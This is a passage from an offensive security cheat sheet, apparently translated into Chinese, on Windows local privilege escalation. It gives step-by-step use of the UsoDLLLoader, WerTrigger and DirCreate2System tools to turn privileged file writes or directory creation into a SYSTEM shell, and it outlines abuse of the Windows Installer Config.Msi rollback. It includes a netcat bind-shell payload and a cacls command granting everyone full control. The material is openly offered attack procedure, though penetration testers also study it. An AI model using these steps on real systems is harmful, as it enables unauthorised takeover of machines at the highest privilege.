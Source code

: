 默认有效负载将运行 C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe


### UsoDLLLoader
> 2020-06-06 更新：此技巧不再适用于最新版本的 Windows 10 Insider Preview。

如果我们在 Windows 或某些第三方软件中发现特权文件写入漏洞，我们可以将自己版本的 windowscoredeviceinfo.dll 复制到 C:\Windows\Sytem32\中，然后让 USO 服务以 NT AUTHORITY\System 的身份加载它。

利用步骤：
1. 构建 https://github.com/itm4n/UsoDllLoader
   1. 选择发布配置和 x64 架构。
   2. 构建解决方案。
      1. DLL .\x64\Release\WindowsCoreDeviceInfo.dll
      2. 加载程序.\x64\Release\UsoDllLoader.exe。

2. 将 WindowsCoreDeviceInfo.dll 复制到 C:\Windows\System32\
3. 使用加载程序并等待 shell 或运行 usoclient StartInteractiveScan 并连接到端口 1337 上的绑定 shell。


### WerTrigger
利用 Windows 问题报告写入特权。

利用步骤：
1. 克隆 https://github.com/sailay1996/WerTrigger
2. 将 phoneinfo.dll 复制到C:\Windows\System32\
3. 将 Report.wer 文件和 WerTrigger.exe 放在同一目录中。
4. 然后，运行 WerTrigger.exe。
5. 享受 NT AUTHORITY\SYSTEM 的 shell


### WerMgr
利用 Windows 错误报告的特权目录创建错误达成提权

利用步骤：
1. Clone https://github.com/binderlabs/DirCreate2System
2. Create directory C:\Windows\System32\wermgr.exe.local\
3. Grant access to it: cacls C:\Windows\System32\wermgr.exe.local /e /g everyone:f
4. Place spawn.dll file and dircreate2system.exe in a same directory and run .\dircreate2system.exe.
5. Enjoy a shell as NT AUTHORITY\SYSTEM



## 通过特权文件删除提权
在 MSI 安装期间，Windows Installer 服务会维护每个更改的记录，以防需要回滚，为此它将创建：

     C:\Config.Msi 中的文件夹包含
         回滚脚本 (.rbs)
         回滚文件 (.rbf)

 要将特权文件删除转换为本地权限提升，您需要滥用 Windows Installer 服务。

     Windows Installer 创建受保护的 C:\Config.Msi 文件夹后立即将其删除
     重新创建具有弱 DACL 权限的 C:\Config.Msi 文件夹，因为普通用户可以在 C:\ 根目录下创建文件夹。
     将恶意 .rbs 和 .rbf 文件放入其中，以便由 MSI 回滚执行
     然后在回滚时，Windows Installer 将对系统进行任意更改
